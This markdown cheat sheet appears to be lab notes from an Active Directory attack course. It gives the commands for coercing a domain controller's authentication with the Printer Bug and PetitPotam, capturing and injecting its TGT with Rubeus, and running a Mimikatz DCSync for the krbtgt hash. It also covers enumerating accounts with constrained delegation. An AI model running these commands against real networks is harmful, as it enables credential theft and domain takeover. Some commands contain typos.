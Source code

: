 ## PRINTER-BUG A feature of MS-RPRN which allows any domain user (Authenticated User) can force any machine (running the Spooler service) to connect to second a machine of the domain user's choice.

## We can capture the TGT of dcorp-dc$ by using Rubeus (https://github.com/GhostPack/Rubeus) on dcorp-appsrv:
`Rubeus.exe monitor /interval:5 /nowrap`
## And after that run MS-RPRN.exe (https://github.com/leechristensen/SpoolSample) on the student VM:
`MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local\\dcorp-appsrv.dollarcorp.moneycorp.local`

## We can also use PetitPotam.exe (https://github.com/topotam/PetitPotam) on dcorp-appsrv, PetitPotam uses EfsRpcOpenFileRaw function of MS-EFSRPC (Encrypting File System Remote Protocol) protocol and doesn't need credentials when used against a DC(so that can be done through a non-domain machine and the function runs even if the service is not enabled:
`PetitPotam.exe dcorp-appsrv dcorp-dc`
## On dcorp-appsrv:
`Rubeus.exe monitor /interval:5`
## Copy the base64 encoded TGT, remove extra spaces (if any) and use it on the student VM:
`Rubeus.exe ptt /tikcet:`
## Once the ticket is injected, run DCSync:
`Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'`

## CONSTRAINED DELEGATION 
## Constrained Delegation with Protocol Transition means The web service requests a ticket from the Key Distribution Center (KDC) for someones's account without supplying a password, as the websvc account. The KDC checks the websvc userAccountControl value for the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION attribute, and that someones's account is not blocked for delegation. To abuse constrained delegation in above scenario, we need to have access to the websvc account. If we have access to that account, it is possible to access the services listed in msDS-AllowedToDelegateTo of the websvc account as ANY user.

## Enumerate users and computers with constrained delegation enabled ,Using PowerView (dev)
`Get-DomainUser–TrustedToAuth`
`Get-DomainComputer–TrustedToAuth`
## Using ActiveDirectory module:
`Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo`
